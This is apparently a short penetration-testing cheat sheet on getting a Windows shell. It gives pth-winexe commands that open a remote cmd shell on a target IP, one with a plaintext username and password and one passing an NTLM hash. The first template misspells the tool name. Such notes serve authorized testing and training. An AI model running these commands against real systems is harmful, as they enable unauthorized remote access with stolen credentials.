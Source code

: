 # Windows Shell

## pth-winexe

### With Pass

`pht-winexe -U <user>%<pass> //Target_IP cmd`

`pth-winexe -U bob%alice //172.10.1.60 cmd`

### Pass The Hash 

`pth-winexe -U bob%hash //172.16.1.60 cmd`